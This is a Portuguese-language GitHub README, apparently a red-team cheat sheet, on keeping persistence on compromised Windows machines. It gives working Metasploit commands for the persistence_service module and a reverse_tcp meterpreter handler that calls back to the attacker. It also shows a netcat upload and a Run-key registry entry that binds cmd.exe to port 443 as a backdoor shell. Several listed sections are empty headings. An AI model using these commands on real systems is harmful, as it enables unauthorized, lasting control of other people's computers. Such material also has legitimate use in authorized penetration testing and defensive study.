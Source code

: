 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

![829c15633cef94444c681910dfedd23b](https://user-images.githubusercontent.com/67444297/198657369-c6fcfa22-36e4-4804-a60d-d7e5ae262f0e.gif)


**Técnicas e táticas para manutenção de persistência em um alvo explorado.**
Eu sou o Stux e estarei constantemente atualizando este repositório com novas técnicas para alvos Windows!

## Sumário
 - [Persistence Service](https://github.com/Stuuxx/awesome-persistence#persistence-service)
 - Persistence Registry
 - Netcat
 - RDP
 - Schtasks
 - Schtasks-Log Events
 - WMIC
 - Wmi-Persistence
 - SharPersist

## Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**
```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)
- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)
Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.
Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


## Persistence Registry


## Netcat

Já com o alvo explorado e com uma shell meterpreter:
- Vamos realizar o upload do netcat para algum diretório do alvo.
```bash
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```
nc1.jpg

- Após realizado o upload, iremos modificar o registro para que o Netcat seja executado.
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e C:\windows\system32\cmd.exe'
```
nc2.jpg



## RDP

Já com o alvo explorado e com uma shell meterpreter:


## Schtasks

Já com o alvo explorado e com uma shell meterpreter:


## Schtasks - Log Events

Já com o alvo explorado e com uma shell meterpreter:


## Ficou com alguma dúvida?
Sinta-se a vontade para entrar em contato comigo através de minhas redes sociais!
 - LinkedIn : [Eduardo Maragno](https://www.linkedin.com/in/eduardo-maragno/)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux](https://medium.com/@stux)
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
